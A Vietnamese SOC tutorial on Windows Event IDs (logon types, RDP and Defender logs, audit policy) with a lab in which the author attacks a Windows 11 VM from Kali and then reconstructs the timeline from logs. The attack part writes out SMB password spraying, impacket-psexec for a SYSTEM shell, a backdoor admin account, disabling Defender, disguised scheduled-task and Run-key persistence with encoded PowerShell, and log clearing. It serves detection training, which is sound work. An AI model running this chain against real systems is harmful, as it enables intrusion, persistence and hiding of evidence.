### Log chuyên biệt cho RDP và Defender (ngoài Security)

Các kênh **Applications and Services Logs** có những event rất tiện:
| Kênh | Event ID | Ý nghĩa |
|---|---|---|
| `TerminalServices-RemoteConnectionManager/Operational` | **1149** | Xác thực RDP thành công (trước khi tạo phiên) |
| `TerminalServices-LocalSessionManager/Operational` | **21 / 22 / 23 / 24 / 25** | Đăng nhập phiên / khởi động shell / đăng xuất / ngắt kết nối / kết nối lại |
| `Windows Defender/Operational` | **1116 / 1117 / 5001** | Phát hiện mã độc / đã xử lý / tắt bảo vệ thời gian thực |

**Lưu ý với 1149:** event này ghi khi kết nối RDP qua được bước xác thực mạng. Khi bật NLA thì có thể coi là xác thực thành công, còn khi tắt NLA thì 1149 chỉ cho biết có kết nối tới, chưa chắc người dùng đã đăng nhập được. Luôn đối chiếu với 4624 Type 10 và LocalSessionManager 21.

Ví dụ mở `TerminalServices-LocalSessionManager/Operational`:


### Logon Type

Trường **LogonType** trong `4624/4625` cho biết cách đăng nhập, rất quan trọng khi xác định nguồn của một cuộc tấn công.
| Type | Tên | Ý nghĩa | Ghi chú SOC |
|---|---|---|---|
| **2** | Interactive | Đăng nhập tại máy (bàn phím) | Bình thường với người dùng tại chỗ |
| **3** | Network | Truy cập qua mạng (SMB, chia sẻ file, thực thi từ xa) | **Hay gặp trong tấn công từ xa** |
| **4** | Batch | Scheduled task | Task lạ chạy bằng tài khoản người dùng |
| **5** | Service | Service khởi động | Service lạ dùng tài khoản đặc quyền |
| **7** | Unlock | Mở khóa màn hình, hoặc kết nối lại phiên RDP | |
| **8** | NetworkCleartext | Mật khẩu gửi dạng rõ | Hiếm, đáng ngờ |
| **9** | NewCredentials | Dùng `runas /netonly` | Dùng thông tin khác cho kết nối mạng |
| **10** | RemoteInteractive | Remote Desktop (RDP) | **Cần chú ý nhất khi bị truy cập từ xa** |
| **11** | CachedInteractive | Dùng thông tin đã cache khi không liên lạc được DC | Máy ngoài mạng công ty |
| **12 / 13** | CachedRemoteInteractive / CachedUnlock | Biến thể cache cho RDP và mở khóa | |

**Lưu ý:** khi máy bật **NLA (Network Level Authentication)**, mặc định ở Windows hiện đại, việc xác thực RDP diễn ra trước khi tạo phiên. Hệ quả:
- Đăng nhập RDP thất bại thường ghi `4625` với Logon Type `3` (không phải `10`).
- Đăng nhập RDP thành công thường thấy một `4624` Type `3` (xác thực NLA), sau đó một `4624` Type `10` (tạo phiên).
- Kết nối lại phiên RDP cũ thường ghi Type `7`.
## Bật ghi log cho các event có dấu (*)

Rất nhiều event quan trọng mặc định **không được ghi**. Nếu chưa bật trước khi sự cố xảy ra thì khi điều tra sẽ không có gì để xem, nên đây là việc cần làm ngay khi triển khai giám sát. Bảng dưới là các thiết lập tương ứng (trong Group Policy: `Computer Configuration > Windows Settings > Security Settings > Advanced Audit Policy Configuration`):

| Event | Thiết lập cần bật |
|---|---|
| 4688 | Audit Process Creation (Detailed Tracking), **và** `Administrative Templates > System > Audit Process Creation > Include command line in process creation events` |
| 4697 | Audit Security System Extension (System) |
| 4698 / 4699 / 4702 | Audit Other Object Access Events (Object Access) |
| 4657 / 4656 / 4663 | Audit Registry (Object Access) + SACL trên key cần theo dõi |
| 5140 | Audit File Share (Object Access) |
| 5145 | Audit Detailed File Share (Object Access), sinh rất nhiều log, nên cân nhắc |
| 4104 | `Administrative Templates > Windows Components > Windows PowerShell > Turn on PowerShell Script Block Logging` |
| 4103 | `Turn on Module Logging` (cùng vị trí), đặt module name là `*` |

Kiểm tra nhanh audit policy hiện tại trên máy:

```powershell
auditpol /get /category:*
auditpol /set /subcategory:"Process Creation" /success:enable /failure:enable
```

**Lưu ý:** trên máy trong domain, GPO sẽ ghi đè thiết lập bằng `auditpol` ở lần cập nhật policy tiếp theo, nên cấu hình lâu dài phải làm qua GPO.

## Thực hành: điều tra một cuộc tấn công thật trong lab

Để nắm chắc các Event ID, mình dựng một lab hai máy và tự tạo ra event rồi đi tìm lại: một máy **Kali** đóng vai attacker, một máy **Windows 11** là nạn nhân. Bài này ghi lại hai chiều — mình tấn công từ Kali, rồi đổi vai SOC dựng lại toàn bộ chuỗi chỉ từ log — kèm vài chỗ dễ vấp khi làm thật.

Chuỗi tấn công:

1. Dò mật khẩu tài khoản admin yếu `labuser` qua SMB, sai vài lần rồi đúng.
2. Dùng tài khoản đó lấy shell `SYSTEM` từ xa bằng PsExec.
3. Tạo tài khoản backdoor `support01` và thêm vào nhóm Administrators.
4. Cài persistence bằng scheduled task và Run key, cả hai chạy PowerShell với lệnh mã hóa Base64.
5. Xóa log `Windows PowerShell` để che giấu dấu vết.

```
Windows 11: 10.0.2.129
Kali      : 10.0.2.128
```

### Bước 0: Chuẩn bị (trên Windows 11)

Mở **PowerShell quyền Administrator** và giữ cửa sổ này đến hết bài (các bước điều tra dùng lại biến `$LabStart`):

```powershell
# 1. Bật audit cho các nhóm sự kiện sẽ dùng
auditpol /set /subcategory:"Logon" /success:enable /failure:enable
auditpol /set /subcategory:"User Account Management" /success:enable
auditpol /set /subcategory:"Security Group Management" /success:enable
auditpol /set /subcategory:"Special Logon" /success:enable
auditpol /set /subcategory:"Process Creation" /success:enable
auditpol /set /subcategory:"Security System Extension" /success:enable
auditpol /set /subcategory:"Other Object Access Events" /success:enable

# 2. Ghi command line vào 4688 và bật Script Block Logging (4104)
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging /v EnableScriptBlockLogging /t REG_DWORD /d 1 /f

# 3. Tài khoản admin yếu - mục tiêu brute force
net user labuser '12345678' /add
net localgroup administrators labuser /add
net accounts /lockoutthreshold:0   # tắt khóa tài khoản để brute nhiều lần không bị chặn

# 4. Cho phép SMB đi vào để nhận kết nối từ Kali
Set-NetFirewallRule -DisplayGroup "File and Printer Sharing" -Enabled True -Profile Any

# 5. Tắt real-time protection của Defender để PsExec chạy được (ghi chú bên dưới)
Set-MpPreference -DisableRealtimeMonitoring $true

# 6. Cho local admin nhận full token khi đăng nhập từ xa (ghi chú bên dưới)
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

$LabStart = Get-Date
```



Tên subcategory của `auditpol` phụ thuộc ngôn ngữ của Windows. Máy khác bản tiếng Anh thì chạy `auditpol /list /subcategory:*` để lấy đúng tên.

Hai lệnh số 5 và 6 dễ bị bỏ sót nhưng không có thì lab không chạy được:

**`LocalAccountTokenFilterPolicy`.** Thiếu dòng này, `netexec` xác thực được nhưng không báo `(Pwn3d!)`, và `impacket-psexec` fail. Nguyên nhân: Windows mặc định áp **UAC Remote Restrictions** — tài khoản local đăng nhập từ xa bị lọc token xuống mức thường, kể cả khi nằm trong nhóm Administrators (ngoại lệ là Administrator built-in, RID 500). Đặt khóa = 1 thì local admin mới nhận full token từ xa. Attacker thật cũng hay bật khóa này để mở đường Pass-the-Hash (MITRE **T1112**), nên bản thân nó là một dấu hiệu đáng ngờ.

**Tắt Defender.** Mặc định Defender nhận diện service của `impacket-psexec` là công cụ tấn công và cách ly nó, làm bước lấy shell fail. Firewall **vẫn bật**, chỉ mở riêng cổng SMB ở lệnh số 4. Hai điểm đáng chú ý:
- Việc tắt real-time protection sinh **event 5001** (`Microsoft-Windows-Windows Defender/Operational`). Ở lab tắt trước `$LabStart` nên không lẫn vào timeline, nhưng ngoài thực tế đây là manh mối: tắt phòng thủ là một kỹ thuật riêng (MITRE **T1562.001**).
- Muốn thấy Defender phản ứng thay vì tắt nó, để real-time protection bật và dùng `impacket-wmiexec`; khi đó Defender chặn PsExec sẽ ghi **1116** (phát hiện) và **1117** (đã xử lý). Bật lại sau lab: `Set-MpPreference -DisableRealtimeMonitoring $false`.

Nếu `Set-MpPreference` báo `access denied`, **Tamper Protection** đang bật — tắt thủ công tại *Windows Security → Virus & threat protection → Manage settings → Tamper Protection → Off* rồi chạy lại. Defender có thể tự bật lại sau một lúc, nên chạy bước PsExec ngay sau Bước 0; kiểm tra bằng `Get-MpComputerStatus | Select RealTimeProtectionEnabled`.

### Bước 1: Đóng vai attacker (trên Kali)

**Recon.** Quét nhanh các cổng dịch vụ:

```bash
nmap -Pn -p 135,139,445,3389,5985 -sV 10.0.2.129
```



Cổng cần cho bài này là **445 (SMB)** — cả brute force lẫn PsExec đều đi qua đây. 3389 và 5985 báo `closed` không sao: `closed` (máy gửi RST, không có dịch vụ) khác `filtered` (firewall chặn), và bài không dùng RDP/WinRM. Quét cổng **không** sinh event đăng nhập, nên giai đoạn này attacker gần như vô hình với Event Log.

**Dò mật khẩu qua SMB.** Tạo wordlist gồm vài mật khẩu sai rồi đến mật khẩu đúng, thử bằng `netexec`:

```bash
printf 'Password1\nWelcome1\nadmin123\nP@ssw0rd\nQwerty123\nLetmein1\nWinter2024\nSummer2024\n12345678\n' > pw.txt
nxc smb 10.0.2.129 -u labuser -p pw.txt
```



Dòng đúng hiện `[+] MINHTU\labuser:12345678 (Pwn3d!)`. `(Pwn3d!)` nghĩa là tài khoản có quyền admin trên máy đích (nhờ `LocalAccountTokenFilterPolicy` đã bật ở Bước 0).

**Lấy shell SYSTEM từ xa** bằng PsExec của Impacket:

```bash
impacket-psexec labuser:'12345678'@10.0.2.129
```

Thành công thì có prompt `C:\Windows\system32>`; `whoami` trả về `nt authority\system`.



PsExec upload một service tạm qua share `ADMIN$` rồi chạy, nên để lại dấu vết rõ.

**Tạo backdoor và nâng quyền** (trong shell PsExec):

```cmd
net user support01 'Supp0rt-Lab!' /add
net localgroup administrators support01 /add
```



**Cài persistence với payload Base64.** Tạo chuỗi Base64 bên Kali (payload chỉ ghi một file text):

```bash
python3 -c "import base64; print(base64.b64encode(\"Write-Output 'lab-test' | Out-File C:\\\\Users\\\\Public\\\\lab.txt\".encode('utf-16-le')).decode())"
```



Copy chuỗi, rồi trong shell PsExec chạy 3 lệnh:

```cmd
schtasks /create /tn "OneDrive Update Check" /tr "powershell.exe -NoProfile -WindowStyle Hidden -EncodedCommand VwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAnAGwAYQBiAC0AdABlAHMAdAAnACAAfAAgAE8AdQB0AC0ARgBpAGwAZQAgAEMAOgBcAFUAcwBlAHIAcwBcAFAAdQBiAGwAaQBjAFwAbABhAGIALgB0AHgAdAA=" /sc onlogon /ru SYSTEM /f

reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "powershell.exe -NoProfile -EncodedCommand VwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAnAGwAYQBiAC0AdABlAHMAdAAnACAAfAAgAE8AdQB0AC0ARgBpAGwAZQAgAEMAOgBcAFUAcwBlAHIAcwBcAFAAdQBiAGwAaQBjAFwAbABhAGIALgB0AHgAdAA=" /f

powershell.exe -NoProfile -EncodedCommand VwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAnAGwAYQBiAC0AdABlAHMAdAAnACAAfAAgAE8AdQB0AC0ARgBpAGwAZQAgAEMAOgBcAFUAcwBlAHIAcwBcAFAAdQBiAGwAaQBjAFwAbABhAGIALgB0AHgAdAA=
```



Tên task `OneDrive Update Check` đặt giống tác vụ hợp lệ — kỹ thuật ngụy trang quen thuộc (MITRE T1036).

**Xóa dấu vết** rồi thoát shell:

```cmd
wevtutil cl "Windows PowerShell"
exit
```



Danh sách event mình kỳ vọng sẽ sinh ra, để lát nữa đối chiếu:

| Hành động (attacker) | Event kỳ vọng (Windows 11) |
|---|---|
| Dò sai mật khẩu nhiều lần | Nhiều × Security **4625** (Logon Type 3, IP nguồn là Kali) |
| Mật khẩu đúng | Security **4624** Type 3 cho `labuser` |
| `impacket-psexec` | System **7045** + Security **4697** (service lạ), **4624** Type 3, **4672** |
| Tạo `support01` | Security **4720** (+ 4722, 4738) |
| Thêm vào Administrators | Security **4732** |
| `schtasks /create` | Security **4698**, TaskScheduler/Operational **106** |
| Mọi lệnh `net`, `schtasks`, `reg`, `powershell`, `wevtutil` | Security **4688** kèm command line |
| `powershell -EncodedCommand` | PowerShell/Operational **4104** chứa script đã giải mã |
| `wevtutil cl "Windows PowerShell"` | System **104** |

### Bước 2: Đổi vai thành SOC (trên Windows 11)

Giờ coi như chỉ có một cảnh báo: *"Nhiều lần đăng nhập thất bại vào tài khoản `labuser`"*. Mình sử dụng **Event Viewer** để điều tra xem attacker đã làm gì.

Mở Event Viewer: `Win + R` → `eventvwr.msc`. Các log dùng trong bài:
- **Windows Logs → Security**: đăng nhập, tài khoản, process, task.
- **Windows Logs → System**: service (7045), xóa log (104).
- **Applications and Services Logs → Microsoft → Windows → PowerShell/Operational**: event 4104.
- Cùng nhánh, **TaskScheduler/Operational**: event 106.

Ba thao tác lọc:
- **Filter Current Log...** (menu Actions): lọc log đang mở theo Event ID, thời gian, từ khóa.
- **Find...** (`Ctrl + F`): tìm chuỗi bất kỳ, ví dụ `support01`.
- **Create Custom View...**: lọc **nhiều log** cùng lúc, và viết **XPath** để lọc theo giá trị một trường.

Mục tiêu cuối là một timeline, nên ở mỗi bước mình ghi lại **thời điểm** của event (cột **Date and Time**; chính xác tới mili-giây thì xem **Details → System → TimeCreated**). Bảng mình điền dần trong lúc làm:

| Thời điểm (Date and Time) | Event ID | Ý nghĩa |
|---|---|---|
| 12:38:31 – 12:38:43 | 4625  | Brute force từ `10.0.2.128` |
| 12:38:45 | 4624 | Đăng nhập thành công `labuser` (máy bị chiếm) |
| 12:39:03 | 7045 | Service lạ của PsExec |
| 12:39:51 | 4720 | Tạo `support01` |
| 12:39:57 | 4732 | Thêm vào Administrators |
| 12:40:48 | 4698 / 106 | Tạo scheduled task |
| 12:41:00 | 4104 | Payload giải mã |
| 12:41:22 | 104 | Xóa log |

#### Xác nhận brute force

Log **Security** → **Filter Current Log...** → *Event IDs* `4625`. Mở một event → **Details → Friendly View**:
- `TargetUserName` = `labuser`
- `IpAddress` = `10.0.2.128` (Kali)
- `LogonType` = `3`
- `SubStatus` = `0xC000006A`



Số event không nhất thiết bằng số mật khẩu đã thử. Lý do: tool brute force kết nối lại khi timeout, và event tích lũy qua mỗi lần chạy (Security log không tự xóa giữa các lần). Quan trọng là **mẫu hành vi**: nhiều 4625 dồn dập, cùng `IpAddress`, cùng `TargetUserName`, cùng `SubStatus`. `0xC000006A` nghĩa là tài khoản có thật, chỉ sai mật khẩu — attacker đã biết đúng tên user. `IpAddress` chỉ thẳng ra máy nguồn. Ghi lại thời điểm 4625 đầu và cuối — khung thời gian của đợt brute force.

#### Attacker có vào được không?

Đổi **Filter Current Log...** sang `4624`. 4624 rất nhiều, nên `Ctrl + F` gõ `labuser` để nhảy tới, rồi đọc Details:
- `LogonType` = `3`, `IpAddress` = `10.0.2.128` — đúng Kali.
- Thời điểm nằm ngay sau chuỗi 4625.

Một 4624 Type 3 từ đúng IP vừa brute force là dấu hiệu **đăng nhập thành công** — mốc **máy bị chiếm**, điểm neo của timeline. Ghi lại thời điểm và `TargetLogonId` để nối các hành động trong cùng phiên.




#### Dấu vết của PsExec

Log **System** → **Filter Current Log...** → `7045`. Tab General cho thấy một **service tên ngẫu nhiên** với `Service File Name` (ImagePath) trỏ tới file `.exe` lạ — dấu hiệu kinh điển của thực thi từ xa kiểu PsExec. Ghi lại thời điểm 7045: lúc attacker chuyển từ "đăng nhập được" sang "thực thi lệnh từ xa".




#### Tài khoản nào vừa được tạo, ai tạo?

Log **Security**, lọc `4720, 4732`.

- **4720** (tạo tài khoản), Details:
  - `TargetUserName` = `support01` — tài khoản mới.
  - `SubjectUserName` = người thực hiện hành động. Ở đây ảnh hiện `MINHTU$` chứ không phải một user người dùng. Tên kết thúc bằng `$` là **tài khoản máy** (`HOSTNAME$`); đi kèm `SubjectUserSid = S-1-5-18` — đó chính là **LocalSystem (SYSTEM)**. Hai giá trị này là một: tiến trình chạy dưới quyền SYSTEM, khi làm việc Windows ghi tên nó dưới dạng tài khoản máy. Lệnh tạo tài khoản được chạy qua PsExec (service ở quyền SYSTEM), nên người thực hiện là SYSTEM. **SYSTEM đứng ra tạo tài khoản là bất thường** — thao tác này thường do admin là người thật, không phải máy tự làm.
  
- **4732** (thêm vào nhóm):
  - `TargetUserName` là **tên nhóm** (`Administrators`).
  - Thành viên thêm vào nằm ở `MemberSid` (tài khoản local thì `MemberName` thường là `-`).
